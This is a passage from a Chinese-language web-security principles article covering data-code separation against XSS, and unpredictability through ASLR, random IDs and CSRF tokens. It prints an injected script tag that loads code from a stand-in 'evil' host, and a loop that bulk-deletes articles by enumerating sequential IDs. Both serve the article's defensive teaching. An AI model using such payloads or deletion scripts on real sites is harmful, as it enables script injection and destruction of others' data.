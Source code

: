   </body>
</html>
{% endhighlight %}
就是程序的代码执行段。而$var就是程序的用户数据片段。如果把用户数据片段$var当成代码片段来解释、执行，就会引发安全问题。比如，当$var 的值是：
{% highlight html %}
<script src=http://evil></script>
{% endhighlight %}
用户数据就被注入到代码片段中。解析这段脚本并执行的过程，是由浏览器来完成的 -- 浏览器将用户数据里的script标签当做代码来解释——这显然不是程序开发者的本意。

根据数据与代码分离原则，在这里应该对用户数据片段$var进行安全处理，可以使用过滤、编码等手段，把可能造成代码混淆的用户数据清理掉，具体到这个案例中，就是针对<、>等符号做处理。

有的朋友可能会问了：我这里就是要执行一个script标签，要弹出一段文字，比如：“你
好！”，那怎么办呢？

在这种情况下，数据与代码的情况就发生了变化，根据数据与代码分离原则，我们就应该重写代码片段：
{% highlight html %}
<html>
  <head>test</head>
  <body>
    <script>
      alert("$var1");
    </script>
  </body>
</html>
{% endhighlight %}
在这种情况下，script标签也变成了代码片段的一部分，用户数据只有$var1 能够控制，从而杜绝了安全问题的发生。

### 4. 不可预测性原则
前面介绍的几条原则：Secure By Default，是时刻要牢记的总则；纵深防御，是要更全面、更正确地看待问题；数据与代码分离，是从漏洞成因上看问题；接下来要讲的“不可预测性”原则，则是`从克服攻击方法的角度看问题`。

微软的 Windows 系统用户多年来深受缓冲区溢出之苦，因此微软在Windows 的新版本中增加了许多对抗缓冲区溢出等内存攻击的功能。微软无法要求运行在系统中的软件没有漏洞，因此它采取的做法是让漏洞的攻击方法失效。比如，使用DEP 来保证堆栈不可执行，使用ASLR让进程的栈基址随机变化，从而使攻击程序无法准确地猜测到内存地址，大大提高了攻击的门槛。经过实践检验，证明微软的这个思路确实是有效的——即使无法修复code，但是如果能够使得攻击的方法无效，那么也可以算是成功的防御。

微软使用的ASLR 技术，在较新版本的Linux 内核中也支持。在ASLR 的控制下，一个程序每次启动时，其进程的栈基址都不相同，具有一定的随机性，对于攻击者来说，这就是“不可预测性”。

**不可预测性（Unpredictable），能有效地对抗基于篡改、伪造的攻击**

假设一个内容管理系统中的文章序号，是按照数字升序排列的，比如id=1000, id=1002, id=1003, ... 这样的顺序，使得攻击者能够很方便地遍历出系统中的所有文章编号：找到一个整数，依次递增即可。如果攻击者想要批量删除这些文章，写个简单的脚本：
{% highlight java %}
for (i=0;i<100000;i++){
  Delete(url+"?id="+i);
}
{% endhighlight %}
就可以很方便地达到目的。但是如果该内容管理系统使用了“不可预测性”原则，将id的值变得不可预测，会产生什么结果呢？id=asldfjaefsadlf, id=adsfalkennffxc, id=poerjfweknfd……

id 的值变得完全不可预测了，攻击者再想批量删除文章，只能通过爬虫把所有的页面id全部抓取下来，再一一进行分析，从而提高了攻击的门槛。

不可预测性原则，可以巧妙地用在一些敏感数据上。比如在CSRF 的防御技术中，通常会使用一个token 来进行有效防御。这个token 能成功防御CSRF，就是因为攻击者在实施CSRF攻击的过程中，是无法提前预知这个token值的，因此要求token 足够复杂时，不能被攻击者猜测到。

不可预测性的实现往往需要用到加密算法、随机数算法、哈希算法，好好使用这条原则，在设计安全方案时往往会事半功倍。



